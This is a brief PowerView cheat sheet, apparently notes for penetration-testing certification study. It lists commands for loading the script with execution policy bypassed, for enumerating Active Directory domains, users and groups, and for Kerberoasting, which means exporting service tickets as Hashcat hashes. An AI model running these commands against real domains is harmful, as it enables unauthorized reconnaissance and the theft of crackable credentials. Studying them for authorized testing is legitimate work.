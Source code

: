 # PowerView.ps1

* [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```powershell
powershell.exe -exec bypass; Import-Module PowerView.ps1
[OR] . .\PowerView.ps1
```

## Domain information

```bash
Get-NetDomain
Get-DomainSID
Get-DomainPolicy
Get-NetDomainController [-Domain DOMAIN]
# can use ping to figure out IP
```

## Domain Users

```powershell
Get-NetUser | select samaccountname,userprincipalname, memberof
Get-NetUser * -Domain DOMAIN | Select-Object -Property name,samaccountname,description,memberof,admincount,userprincipalname, serviceprincipalname, useraccountcontrol
```

### Kerberoastable Users

```powershell
Get-NetUser -SPN | select serviceprincipalname
Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat
```

## Domain Groups

```powershell
Get-NetGroup [-GroupName *admin*]
```

## References

* [https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands)
* [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
* 